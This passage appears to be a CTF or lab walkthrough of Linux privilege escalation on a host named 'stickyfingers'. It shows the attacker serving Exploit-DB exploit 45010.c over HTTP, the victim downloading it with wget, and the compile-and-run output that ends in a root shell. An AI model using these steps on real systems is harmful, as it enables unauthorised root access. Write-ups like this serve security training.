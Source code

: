 Lets try with this one `Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Esc | linux/local/45010.c`

We first need to copy the exploit from our host to the victim machine.
Lets navigate to the exploit dir and run a web server:
```
$ cd /opt/exploit-database/exploits/linux/local/
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Now lets download the exploit in the victim machine:
```
bucciarati@stickyfingers:~$ cd /tmp
bucciarati@stickyfingers:/tmp$ wget http://192.168.1.10:8000/45010.c
--2020-10-01 11:52:10--  http://192.168.1.10:8000/45010.c
Connecting to 192.168.1.10:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13728 (13K) [text/plain]
Saving to: ‘45010.c’

45010.c                   100%[=====================================>]  13.41K  --.-KB/s    in 0.05s   

2020-10-01 11:52:10 (259 KB/s) - ‘45010.c’ saved [13728/13728]

bucciarati@stickyfingers:/tmp$ ll
total 56
drwxrwxrwt 10 root       root        4096 Oct  1 11:52 ./
drwxr-xr-x 23 root       root        4096 Sep 13 15:08 ../
-rw-rw-r--  1 bucciarati bucciarati 13728 Sep 19 06:04 45010.c
drwxrwxrwt  2 root       root        4096 Oct  1 03:27 .font-unix/
drwxrwxrwt  2 root       root        4096 Oct  1 03:27 .ICE-unix/
drwx------  3 root       root        4096 Oct  1 03:27 systemd-private-c595672ccb8042ddb0c17fc490a745d1-apache2.service-OFmaz9/
drwx------  3 root       root        4096 Oct  1 03:27 systemd-private-c595672ccb8042ddb0c17fc490a745d1-systemd-resolved.service-epbFzD/
drwx------  3 root       root        4096 Oct  1 03:27 systemd-private-c595672ccb8042ddb0c17fc490a745d1-systemd-timesyncd.service-MnsLXq/
drwxrwxrwt  2 root       root        4096 Oct  1 03:27 .Test-unix/
drwxrwxrwt  2 root       root        4096 Oct  1 03:27 .X11-unix/
drwxrwxrwt  2 root       root        4096 Oct  1 03:27 .XIM-unix/
bucciarati@stickyfingers:/tmp$
```
Lets build it now:
```
bucciarati@stickyfingers:/tmp$ gcc 45010.c -o exploit
bucciarati@stickyfingers:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff9274bc5d8600
[*] Leaking sock struct from ffff9274bb945c00
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff9274b621e600
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff9274b621e600
[*] credentials patched, launching shell...
# whoami
root
```